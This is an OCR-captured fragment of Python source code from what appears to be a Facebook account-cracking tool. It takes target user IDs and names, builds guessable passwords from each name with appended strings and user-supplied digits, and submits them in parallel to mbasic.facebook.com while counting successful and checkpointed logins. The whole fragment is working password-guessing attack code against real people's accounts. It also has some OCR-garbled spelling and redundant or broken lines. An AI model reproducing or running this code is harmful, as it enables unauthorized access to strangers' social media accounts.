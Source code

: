                      try: 
  
                         uid, name = zsb.split('|') 
  
                         xz = name.split(' ') 
  
                         if len(xz) == 3 or len(xz) == 4 or len(xz) == 5 or len(xz) == 6: 
  
                             pwx = [name, xz[0]+xz[1]] 
  
                             pwx = [name, xz[0] + 'last', xz[0] + 'Frist', xz[0] + 'Last'] 
  
                             pwx = [name, xz[0]+xz[1]] 
  
                         else: 
  
                             pwx = [Last, xz[0] + 'Last1', xz[0] + 'first', xz[0] + 'last1'] 
  
                         ssbworld.submit(self.__metode__, uid, pwx, "mbasic.facebook.com") 
  
                     except: 
  
                         pass 
  
             hasil(ok,cp) 
  
         elif chi in ('2', '02'): 
  
             os.system("clear") 
  
             print(logo) 
  
             print("") 
  
             print("\033[1;37m\r   Enter Last Name Digits\033[1;37m\n") 
  
             print ("\033[1;37m\r   Exmple : 123 + 12345 + 1234 + 1122\033[1;37m\n") 
  
             p1 = input('   Name + 1 : ') 
  
             p2 = input('   Name + 2 : ') 
  
             p3 = input('   Name + 3 : ') 
  
             p4 = input('   Name + 4 : ') 
  
             os.system("clear") 
  
             print(logo) 
  
             print("\033[1;32m      Dont Forget Allah😊 \033[1;37m") 
  
             print(" [$]~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~[$]") 
  
             with sarfrazssb(max_workers=30) as ssbworld: 
  
                 for zsb in self.id: # Yo Ndak Tau Kok Tanya Saia 
  
                     try: 
  
                         uid, name = zsb.split('|') 
  
                         xz = name.split(' ') 
  
                         if len(xz) == 3 or len(xz) == 4 or len(xz) == 5 or len(xz) == 6: 
  